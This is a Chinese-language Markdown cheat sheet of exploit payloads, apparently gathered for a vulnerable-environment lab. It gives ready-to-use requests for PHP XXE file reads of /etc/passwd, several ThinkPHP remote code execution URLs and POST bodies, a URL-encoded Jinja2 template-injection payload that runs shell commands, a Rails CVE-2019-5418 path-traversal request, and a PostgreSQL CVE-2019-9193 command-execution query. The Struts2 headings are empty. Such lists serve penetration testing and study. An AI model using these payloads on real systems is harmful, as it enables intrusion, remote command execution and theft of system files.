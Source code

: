 # Real

- [PHP](#PHP)
    - [XXE](XXE)
    - [thinkphp](#thinkphp)
        - [ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞](#ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞)
        - [ThinkPHP-5.0.23-Rce](#ThinkPHP-5.0.23-Rce)
        - [ThinkPHP-2.x-任意代码执行漏洞](#ThinkPHP-2.x-任意代码执行漏洞)
    - [phpmyadmin](#phpmyadmin)
- [Python](#Python)
    - [Flask](#Flask)
        - [Jinja2](#Jinja2)
- [Struts2](#Struts2)
    - [s2-013](#s2-013)
    - [s2-045](#s2-045)
- [Ruby](#Ruby)
    - [Rails](#Rails)
        - [CVE-2019-5418](#CVE-2019-5418)
- [数据库](#数据库)
    - [Postgres](#Postgres)
        - [CVE-2019-9193](#CVE-2019-9193)
## PHP

### XXE

Libxml2.9.0 以后 ，默认不解析外部实体，对于PHP版本不影响XXE的利用
`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞

```
/dom.php
/SimpleXMLElement.php
/simplexml_load_string.php
```

```
POST /dom.php HTTP/1.1

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

![image](./img/php-xxe.png)

### thinkphp

#### ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

或者工具一把梭

#### ThinkPHP-5.0.23-Rce

```bash
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

#### ThinkPHP-2.x-任意代码执行漏洞

```
http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```


## Python
### Flask
#### Jinja2

Flask（Jinja2） 服务端模板注入漏洞

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22env%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

在popen输入要执行的命令

env:打印环境变量
id:

## Struts2

### s2-013
### s2-045


## Ruby

### Rails

Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。

#### CVE-2019-5418

漏洞影响：
Ruby on Rails < 6.0.0.beta3
Ruby on Rails < 5.2.2.1
Ruby on Rails < 5.1.6.2
Ruby on Rails < 5.0.7.2

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image](./img/1.png)
## 数据库

### Postgres

#### CVE-2019-9193

Navicat连接数据库，数据库初始账号密码为postgres/postgres

影响版本：PostgreSQL 9.3-11.2
poc
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

![image](./img/postgres1.png)
